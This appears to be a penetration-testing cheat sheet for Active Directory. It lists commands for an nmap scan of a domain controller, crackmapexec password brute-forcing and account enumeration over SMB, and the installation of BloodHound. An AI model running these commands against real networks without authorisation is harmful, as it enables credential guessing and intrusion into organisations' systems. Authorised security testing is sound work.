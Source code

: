 # Domain

## Scan Domain Controller's Open Ports
`nmap -Pn 172.140.0.40`

## Password Brute-Forcing

```sh
crackmapexec smb targets.txt -u users.txt -p passwords.txt --continue-on-success
crackmapexec smb targets.txt -u users.txt -p passwords.txt --continue-on-success | grep '[+]'
```

## Check Login
`crackmapexec smb targets.txt -u user -p pass`

## Check Password Policy
`crackmapexec smb targets.txt -u user -p pass --pass-pol`

## Enumerate Users
`crackmapexec smb targets.txt -u user -p pass --users`

## Enumerate Computers
`crackmapexec smb targets.txt -u user -p pass --computers`

## Install Bloodhound

```sh
echo "deb http://httpredir.debian.org/debian stretch-backports main" | sudo tee -a /etc/apt/sources.list.d/stretch-backports.list

apt update

wget -O - https://debian.neo4j.com/neotechnology.gpg.key | sudo apt-key add -

echo 'deb https://debian.neo4j.com stable latest' > /etc/apt/sources.list.d/neo4j.list

apt update

apt install -y apt-transport-https neo4j

service stop neo4j

cd /usr/bin

./neo4j console &

wget https://github.com/BloodHoundAD/BloodHound/releases/download/v4.3.0/BloodHound-linux-x64.zip

mv BloodHound-linux-x64.zip /opt/

cd /opt

unzip BloodHound-linux-x64.zip

chmod +x BloodHound-linux-x64/BloodHound

./BloodHound-linux-x64/BloodHound --no-sandbox &
```
